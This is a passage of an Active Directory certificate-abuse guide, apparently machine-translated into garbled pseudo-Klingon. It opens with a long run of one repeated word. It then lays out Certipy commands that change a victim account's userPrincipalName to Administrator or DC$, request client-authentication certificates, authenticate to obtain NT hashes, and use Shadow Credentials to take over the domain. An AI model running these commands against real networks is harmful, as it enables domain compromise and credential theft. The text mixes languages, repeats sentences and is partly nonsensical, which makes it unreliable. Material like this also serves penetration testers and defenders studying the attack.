 vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaH
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator
```
**DaH jImej**, `Jane` vItlhutlhlaHchugh, `User` template vItlhutlhlaHchugh, client authentication jatlhqa' certificate vItlhutlhlaHchugh.
```bash
certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes <hash>
```
`Jane`'s `userPrincipalName` is then reverted to its original, `Jane@corp.local`.
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local
```
Authenticating with the obtained certificate will yield the NT hash of `Administrator@corp.local`, necessitating the specification of the domain in the command due to the absence of domain details in the certificate.

**Klingon Translation:**

Authenticating with the obtained certificate will yield the NT hash of `Administrator@corp.local`, necessitating the specification of the domain in the command due to the absence of domain details in the certificate.
```bash
certipy auth -pfx administrator.pfx -domain corp.local
```
### Abuse Case 2

`CertificateMappingMethods` vItlh `UPN` bit flag (`0x4`) veb chaw' account A vItlh `GenericWrite` permissions vItlh account B vItlh `userPrincipalName` property vebmey, machine accounts je built-in domain administrator `Administrator` vItlh compromise laH.

ngoD, `DC$@corp.local` vItlh compromise laH, `Jane`'s hash through Shadow Credentials vItlh ghaH, `GenericWrite` vItlh leverage.
```bash
certipy shadow auto -username John@corp.local -p Passw0rd! -account Jane
```
`Jane`'s `userPrincipalName` is then set to `DC$@corp.local`.

`Jane`'s `userPrincipalName` is then set to `DC$@corp.local`.
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'DC$@corp.local'
```
`Jane` using the default `User` template: `Jane` vItlhutlhla' `User` template vItlhutlhla' 'ej client authentication certificate vItlhutlhla'.
```bash
certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes <hash>
```
`Jane`'s `userPrincipalName` is reverted to its original after this process.
